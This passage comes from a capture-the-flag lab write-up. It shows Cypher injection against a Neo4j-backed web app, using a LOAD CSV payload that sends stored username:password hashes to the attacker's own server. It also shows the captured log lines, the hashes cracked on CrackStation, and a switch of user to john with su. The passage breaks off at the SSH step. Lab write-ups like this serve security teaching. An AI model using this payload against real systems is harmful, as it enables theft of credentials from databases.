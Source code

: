 It’s getting the user object, and then the keys for it (saved in `k`), and then sending a query to me with `k[0]`:

```
10.10.11.210 - - [24/Apr/2023 16:06:50] "GET /?password HTTP/1.1" 200 -

```

I am not able to find a way to get all the keys in one query, but I’ll up `k[0]` to `k[1]` and get:

```
10.10.11.210 - - [24/Apr/2023 16:07:34] "GET /?username HTTP/1.1" 200 -

```

`k[2]` doesn’t returns anything.

To read data, I’ll use the same pattern but this time generate a string for each node:

```

' match (u:user) with distinct u.username + ":" + u.password  as d LOAD CSV FROM 'http://10.10.14.6/?'+d as a return a //

```

A single query sends back two requests:

```
10.10.11.210 - - [24/Apr/2023 16:10:08] "GET /?admin:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [24/Apr/2023 16:10:08] "GET /?john:a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -

```

### su / SSH

#### Crackstation

Both of these are non-salted SHA256 hashes, and both are already cracked in [CrackStation](https://crackstation.net/):

![image-20230424161259132](/img/image-20230424161259132.png)

#### Shell

This password works for john over `su`:

```

www-data@only4you:~/only4you.htb$ su - john
Password: 
john@only4you:~$

```

And SSH:
